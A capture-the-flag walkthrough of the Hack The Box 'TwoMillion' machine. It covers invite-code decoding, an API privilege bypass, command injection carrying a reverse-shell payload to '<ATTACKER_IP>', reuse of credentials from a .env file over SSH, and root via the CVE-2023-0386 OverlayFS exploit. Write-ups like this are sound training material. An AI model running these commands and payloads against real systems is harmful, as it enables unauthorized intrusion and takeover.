







# TwoMillion HTB Machine

## Overview

**TwoMillion** is an Easy-difficulty Linux box that was released to celebrate reaching 2 million users on Hack The Box.

The box features an old version of the Hack The Box platform that includes the old hackable invite code. After exploiting the invite code, an account can be created on the platform.

The newly created account can then be used to enumerate various API endpoints. One of these endpoints contains an authorization flaw that allows a regular user to elevate their privileges to **Administrator**.

With administrative access, the VPN generation functionality can be abused through a **command injection vulnerability**, resulting in a shell on the target system.

Further enumeration reveals an `.env` file containing database credentials. Due to **password reuse**, the recovered credentials can be used to authenticate as the `admin` user over SSH.

After obtaining access as `admin`, kernel enumeration reveals that the target is running an outdated Linux kernel vulnerable to **CVE-2023-0386**, an OverlayFS local privilege-escalation vulnerability.

Exploiting this vulnerability allows the attacker to escalate privileges and obtain a **root shell**, completing the attack chain.

---
# COMPLETE ATTACK CHAIN

If you just want the hint at the attack chain without the steps here is the summarised version:

```text
                         TwoMillion
                              |
                              v
                      Nmap Enumeration
                              |
                              v
                    Port 80 - Web App
                              |
                              v
                       /invite Endpoint
                              |
                              v
                  Legacy Invite Code
                              |
                              v
                     Account Registration
                              |
                              v
                     Authenticated Session
                              |
                              v
                       API Enumeration
                              |
                              v
                   Authorization Bypass
                              |
                              v
                        is_admin = 1
                              |
                              v
                    Administrator Access
                              |
                              v
                  VPN Generation Endpoint
                              |
                              v
                     Command Injection
                              |
                              v
                       Reverse Shell
                              |
                              v
                     Filesystem Enumeration
                              |
                              v
                         .env File
                              |
                              v
                    Database Credentials
                              |
                              v
                       Password Reuse
                              |
                              v
                        SSH as admin
                              |
                              v
                     Kernel Enumeration
                              |
                              v
                       CVE-2023-0386
                              |
                              v
                  OverlayFS Privilege Escalation
                              |
                              v
                          Root Shell
                              |
                              v
                         Root Flag
```

---
# Step-By-Step Walkthrough

## 1. ENUMERATION

The first step is to perform a port scan against the target machine.

### Nmap Scan

```bash
nmap -sV 10.129.132.157
````

The `-sV` option is used to enumerate the versions of the services running on the discovered ports.

The scan reveals the following open ports:

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 22   | SSH     | OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 |
| 80   | HTTP    | nginx                           |

The presence of an HTTP service indicates that the web application should be investigated.


# 2. WEB ENUMERATION

The web application can be accessed through:

```text
http://2million.htb
```

The application is an older version of the Hack The Box platform.

An interesting endpoint is:

```text
http://2million.htb/invite
```

The `/invite` page contains functionality related to the Hack The Box invitation system.

---

## Invite Code

The invite functionality contains a client-side mechanism involving an encoded invite code.
The invite code is Base64 encoded.
Base64 is an encoding mechanism rather than encryption, so the value can be decoded.
The encoded value can be decoded using:

```bash
echo "<encoded_value>" | base64 -d
```

After decoding the invite code, a valid invitation code can be obtained.
This allows an account to be registered on the platform.




# 3. ACCOUNT REGISTRATION

Using the recovered invite code, an account can be registered on the Hack The Box platform. After registration, the user can log in normally.
Once authenticated, the application exposes additional functionality that can be investigated through its API. The authenticated session is maintained using a PHP session cookie:

```text
PHPSESSID=<PHP_SESSION>
```
This session cookie can be used when interacting with the API.

# 4. API ENUMERATION

The API endpoints can be enumerated using `curl`.

The main API endpoint can be queried using:

```bash
curl -sv 2million.htb/api --cookie "PHPSESSID=<PHP_SESSION>" | jq
```


The `jq` utility is useful for formatting and parsing JSON responses.
Further enumeration can be performed against:

```bash
curl -v 2million.htb/api/v1 --cookie "PHPSESSID=<PHP_SESSION>"
```


The API exposes multiple endpoints and functionality.Some of the endpoints are related to administrative functionality, which makes authorization testing particularly important.


# 5. API AUTHORIZATION BYPASS

During API enumeration, an endpoint responsible for updating administrative settings can be identified:

```text
PUT /api/v1/admin/settings/update
```

The endpoint accepts JSON data.
The relevant parameters include:

```json
{
    "email": "test@2million.htb",
    "is_admin": 1
}
```

The request can be sent using the authenticated session:

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
--cookie "PHPSESSID=<PHP_SESSION>" \
-H "Content-Type: application/json" \
-d '{"email":"test@2million.htb","is_admin":1}'
```

The server responds with information indicating that the account has been assigned administrative privileges:

```json
{
    "id": 13,
    "username": "test",
    "is_admin": 1
}
```

The same request can also be intercepted and modified using **Burp Suite**.


## Vulnerability

The application does not properly verify whether the authenticated user is authorized to perform this administrative operation.
The `is_admin` parameter can therefore be manipulated by a regular authenticated user. This results in an **authorization bypass**, allowing the normal user account to become an Administrator.


# 6. ADMINISTRATIVE ACCESS

After modifying the account privileges, the application treats the user as an administrator. Additional administrative functionality becomes accessible. One of the interesting features is the VPN generation functionality.

The relevant endpoint is:

```text
POST /api/v1/admin/vpn/generate
```

This endpoint generates VPN configuration information for a specified username. Because the endpoint processes user-controlled input on the server, it can be tested for command injection.

# 7. COMMAND INJECTION

The username parameter can be manipulated to inject an operating system command.

A reverse shell payload can be used:

```text
test; bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
```

Replace `<ATTACKER_IP>` with the IP address of the attacker machine. Before sending the payload, start a Netcat listener:

```bash
nc -lvnp 4444
```

The malicious request can then be sent to:

```text
POST /api/v1/admin/vpn/generate
```

The injected command is executed by the server. This results in a reverse shell connection back to the attacker machine.



# 8. INITIAL SHELL ACCESS

Once the command injection succeeds, the Netcat listener receives a connection.

The current user can be checked with:

```bash
whoami
```

Additional system information can be gathered using:

```bash
id
```

```bash
uname -a
```

```bash
pwd
```

At this stage, the objective is to enumerate the system and identify credentials or other opportunities for privilege escalation.


# 9. DATABASE CREDENTIAL DISCOVERY

During filesystem enumeration, an `.env` file can be located. Environment files commonly contain application configuration information such as:

The `.env` file contains database credentials.
The recovered database password is:

```text
SuperDuperPass123
```

The database name is:

```text
htb_prod
```

The discovered credentials provide an important opportunity because passwords are sometimes reused between services and accounts.


# 10. PASSWORD REUSE

The recovered password can be tested against other users and services on the machine.
The username:

```text
admin
```
can be tested with the discovered password. Since SSH is exposed on port 22, the credentials can be used to authenticate through SSH:

```bash
ssh admin@2million.htb
```

When prompted for the password, using the DB password, the login succeeds due to password reuse. This provides a more stable shell as the `admin` user. This is gives us the first user flag !!!!!



# 11. PRIVILEGE ESCALATION ENUMERATION

After obtaining an SSH session as `admin`, the system can be enumerated for possible privilege escalation vectors.
The kernel version can be checked using:

```bash
uname -a
```
The target reports:

```text
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
The kernel version is notably old.Further enumeration also provides a clue in:

```text
/var/mail
```
This suggests that additional investigation into the system's kernel and known vulnerabilities is warranted.

# 12. KERNEL ENUMERATION

The kernel version is:

```text
5.15.70-051570-generic
```
The machine is running an outdated Linux kernel.A relevant vulnerability is:

```text
CVE-2023-0386
```

CVE-2023-0386 is a Linux OverlayFS local privilege-escalation vulnerability. The vulnerability can allow a local unprivileged user to escalate privileges under vulnerable configurations. Since an SSH shell as `admin` has already been obtained, the local exploitation requirement is satisfied.

# 13. CVE-2023-0386
The vulnerability affects the Linux kernel's handling of OverlayFS. A public proof-of-concept is available at:

```text
https://github.com/xkaneiki/CVE-2023-0386
```
The exploit can be obtained on the attacker machine and transferred to the target.


# 14. OBTAINING THE EXPLOIT

On the attacker machine, clone the repository:

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386
```

The repository contains the files required for the proof-of-concept. The directory can then be compressed:

```bash
zip -r cve.zip CVE-2023-0386
```

This creates:

```text
cve.zip
```

The archive can then be transferred to the target system.

# 15. FILE TRANSFER USING SCP

The `scp` utility can be used to securely copy files between systems over SSH. From the attacker machine:

```bash
scp cve.zip admin@2million.htb:/tmp/
```

The file is transferred to:

```text
/tmp/cve.zip
```

On the target:

```bash
cd /tmp
```

Verify that the file is present:

```bash
ls
```

Extract the archive:

```bash
unzip cve.zip
```

The exploit directory is now available:

```text
/tmp/CVE-2023-0386
```



# 16. EXPLOITING CVE-2023-0386

Move into the exploit directory:

```bash
cd /tmp/CVE-2023-0386
```

Follow the compilation and execution instructions provided by the exploit repository. After preparing the exploit, execute:

```bash
./exp
```

The exploit abuses the vulnerable OverlayFS functionality to perform local privilege escalation. If successful, the shell is elevated to root.
Verify the current user:

```bash
whoami
```

The expected result is: root

The machine has now been fully compromised. The root directory can be accessed using:

```bash
cd /root
```

List the contents:

```bash
ls
```

The root flag can then be retrieved.

---

# 17. KEY TAKEAWAYS

The TwoMillion machine demonstrates several important security weaknesses: Base64 encoding does not provide confidentiality, authorization must be enforced server-side, and administrative endpoints require strong access controls. The VPN generation endpoint also highlights the risks of unsanitized user input and command injection, while the exposed .env file demonstrates the importance of protecting sensitive credentials. Password reuse can allow credentials obtained from one component to be used for SSH access, and the final privilege escalation through CVE-2023-0386 highlights the importance of regularly patching operating systems and kernels.

---

# 18. TOOLS USED

| Tool       | Purpose                                    |
| ---------- | ------------------------------------------ |
| Nmap       | Port and service enumeration               |
| cURL       | API enumeration and interaction            |
| jq         | JSON parsing and formatting                |
| Burp Suite | HTTP request interception and modification |
| Netcat     | Reverse-shell listener                     |
| SSH        | Remote system access                       |
| SCP        | Secure file transfer                       |
| Git        | Downloading the exploit repository         |
| zip        | Compressing the exploit                    |
| unzip      | Extracting the exploit                     |

